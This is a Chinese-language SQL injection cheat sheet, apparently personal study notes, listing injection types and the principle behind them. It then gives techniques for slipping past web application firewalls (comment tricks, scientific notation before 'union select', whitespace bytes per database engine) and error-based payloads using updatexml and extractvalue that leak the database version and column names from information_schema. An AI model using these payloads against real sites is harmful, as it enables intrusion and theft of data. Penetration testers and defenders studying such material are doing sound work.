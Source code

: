 1.  基于报错注入
2.  基于布尔的注入，根据返回页面判断条件真假的注入
3.  基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4.  宽字节注入
5.  联合查询，可以使用 union 的情况下的注入。
6.  堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理

通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。

### 过waf

>   https://blog.csdn.net/wjy397/article/details/53263281

1.  确定waf类型，狗、盾、神、锁、宝、卫士
2.  使用注释符号或者特殊符号或者多个特殊符号重复

```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
```

1.  使用sql内置函数或者关键字

>   报错注入 https://blog.csdn.net/like98k/article/details/79646512

```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
```